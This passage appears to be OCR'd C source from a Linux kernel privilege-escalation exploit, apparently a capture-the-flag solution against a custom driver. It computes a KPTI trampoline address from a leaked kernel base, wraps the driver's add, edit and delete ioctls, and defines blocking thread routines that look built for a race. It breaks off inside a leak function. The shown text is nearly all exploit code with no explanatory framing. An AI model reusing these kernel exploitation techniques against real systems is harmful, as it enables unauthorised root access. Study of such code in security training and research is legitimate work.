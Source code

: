 ```c
    swapgs_restore_regs_and_return_to_usermode += vmlinux_base;
    kpti_trampoline  = swapgs_restore_regs_and_return_to_usermode +22;

    info("kpti_trampoline" , kpti_trampoline);
    
}

void add(size_t index , size_t size , char *data){
    args arg;
    arg.index = index;
    arg.size = size;
    arg.data = data;

    ioctl(fd , 0x100 , &arg );
}

void * block_add(void *index){
    args arg;
    arg.index = *(size_t*)index;
    arg.size = 0x50;
    arg.data =(char *) mem;

    ioctl(fd , 0x100 , &arg );
    error("error");
}

void * block_edit(void *index){
    args arg;
    arg.index = *(size_t*)index;
    arg.size = 0;
    arg.data =(char *) mem;

    ioctl(fd , 0x300 , &arg );
    error("error");
}

void delete(size_t index){
    args arg;
    arg.index = index;
    arg.size = 0;
    arg.data = 0;

    int res = ioctl(fd , 0x200 , &arg );
    if(!res){
        info("Detele a chunk" , 0);
    }else{
        error("Can not detele chunk");
    }
}

void edit(size_t index , size_t size , char *data){
    args arg;
    arg.index = index;
    arg.size = size;
    arg.data = data;

    int res = ioctl(fd , 0x300, &arg );
}

void leak( char *data){
    args arg;
    arg.index = 0;
    arg.size = 0;
```